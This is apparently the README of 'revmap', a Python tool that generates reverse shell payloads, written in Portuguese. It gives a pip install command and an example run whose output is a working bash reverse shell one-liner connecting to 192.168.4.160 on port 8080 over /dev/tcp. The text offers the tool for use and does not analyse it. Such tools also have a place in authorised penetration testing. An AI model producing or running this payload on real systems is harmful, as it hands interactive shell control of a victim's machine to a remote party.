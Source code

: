 # Instalação

revmap requer **python3** e para baixá-lo só usar:

```sh
pip3 install revmap
```

# Executando revmap

```console
revmap --ip 192.168.4.160 --port 8080 --payload bash

 ___ ___ _ _ _____ ___ ___ 
|  _| -_| | |     | .'| . |
|_| |___|\_/|_|_|_|__,|  _|
                      |_|  
        v0.0.4 - @joaoviictorti 
                                               

bash -c 'exec bash -i &>/dev/tcp/192.168.4.160/8080 <&1'
```


<img width=100% src="https://capsule-render.vercel.app/api?type=waving&color=0000FF&height=120&section=footer"/>
